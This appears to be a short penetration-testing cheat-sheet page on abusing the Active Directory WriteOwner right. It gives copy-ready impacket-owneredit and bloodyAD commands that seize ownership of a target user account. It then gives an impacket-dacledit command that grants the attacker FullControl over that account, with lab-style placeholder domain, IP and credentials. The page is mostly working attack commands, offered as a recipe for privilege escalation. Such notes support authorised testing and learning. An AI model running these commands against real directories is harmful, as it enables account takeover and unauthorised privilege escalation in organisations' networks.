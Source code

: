 # WriteOwner

## <mark style="color:yellow;">Writing an owner</mark>

> We only have rights to write owner, it doesn't mean we are the owner. But here we are changing that

```powershell
impacket-owneredit -action 'write' -new-owner 's.reed' -target 'songbird' 'MILITECH.LOCAL'/'S.REED':'P@ssword123'
```

```bash
bloodyAD --host "13.13.13.13" -d "MILITECH.LOCAL" -u "s.reed" -p "Password123" set owner management songbird
```

## <mark style="color:yellow;">Adding a FullAccess DACL</mark>

> Since we are the owner, we can write to ourselves full access to user songbird. Groups also count, just change target to songbird to group name.

```powershell
impacket-dacledit -action 'write' -rights 'FullControl' -principal 's.reed' -target 'songbird' 'MILITECH.LOCAL'/'S.REED':'P@ssword123'
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/grant-ownership#grant-ownership" %}

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/grant-rights#grant-rights" %}
